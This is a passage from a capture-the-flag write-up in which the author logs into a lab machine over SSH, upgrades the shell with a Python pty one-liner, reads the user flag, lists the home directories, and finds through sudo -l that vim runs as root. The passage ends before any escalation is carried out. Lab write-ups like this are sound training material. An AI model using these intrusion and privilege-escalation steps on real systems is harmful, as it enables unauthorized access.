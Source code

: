 `ssh mitch@10.10.184.34 -p 2222`

```
The authenticity of host '[10.10.184.34]:2222 ([10.10.184.34]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.184.34]:2222' (ED25519) to the list of known hosts.
mitch@10.10.184.34's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ whoami
mitch
$ hostname
Machine
```

That answers the 6th question.

I upgrade my shell:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

```
mitch@Machine:~$
```

In his home directory it shows:

```
-rw-rw-r-- 1 mitch mitch   19 aug 17  2019 user.txt
```

And viewing it with `cat user.txt` answers question 7:

```
G00d j0b, keep up!
```

I check the **/home** directory for other users since it's an objective and see the following, which answers question 8:

```
mitch  sunbath
```


Checking `sudo -l` shows us we can run **vim** as root:

```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
